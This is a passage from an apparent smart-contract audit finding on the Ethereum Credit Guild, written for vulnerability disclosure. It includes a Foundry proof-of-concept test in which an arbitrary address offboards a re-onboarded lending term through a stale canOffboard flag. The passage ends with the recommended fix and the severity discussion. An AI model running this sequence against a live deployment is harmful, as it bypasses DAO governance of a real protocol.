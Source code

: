 ```solidity
    offboarder.cleanup(address(term));

    // ------------------------------------------------------------------------------ //
    // ---<< Waiting for all term's loans to be closed to execute the cleanup() >>--- //
    // ------------------------------------------------------------------------------ //

    // Next 10 days
    // Offboarding poll expired
    vm.roll(block.number + 66460); // 10 days
    vm.warp(block.timestamp + 66460 * 13);
    assertGt(block.number, OFFBOARDING_POLL_END_BLOCK);

    // While waiting for all term's loans to be closed, the term gets re-onboarded
    vm.stopPrank();
    assertEq(guild.isGauge(address(term)), false);
    guild.addGauge(1, address(term));
    assertEq(guild.isGauge(address(term)), true);

    // The canOffboard[term] flag is still active since the cleanup() hasn't been called
    assertEq(offboarder.canOffboard(address(term)), true);

    // Next 30 days
    vm.roll(block.number + 199380); // 30 days
    vm.warp(block.timestamp + 199380 * 13);

    // Attacker offboards the term by overriding the DAO vote offboarding mechanism
    // The attacker did not need to hold any guild tokens to exploit this vulnerability
    address Attacker = address(1);
    vm.startPrank(Attacker);
    assertEq(guild.isGauge(address(term)), true);
    offboarder.offboard(address(term));
    assertEq(guild.isGauge(address(term)), false);
}
```

### Recommended Mitigation Steps

Implement a proper mechanism for resetting the `canOffboard[term]` flag once the associated lending term has been re-onboarded.

It is worth noting that the `canOffboard[term]` flag should be reset after the term re-onboarding operation has successfully been executed by Timelock (when the term is already active) to prevent other security issues.

**[eswak (Ethereum Credit Guild) confirmed, but disagreed with severity and commented](https://github.com/code-423n4/2023-12-ethereumcreditguild-findings/issues/1147#issuecomment-1898022905):**
> Confirming this, but disagree with severity. I think medium is more fit for this, given the unlikely situation of re-onboarding a term that just has been offboarded, and that no user funds are at risk.

**[TrungOre (judge) decreased severity to Medium](https://github.com/code-423n4/2023-12-ethereumcreditguild-findings/issues/1147#issuecomment-1919132413)**
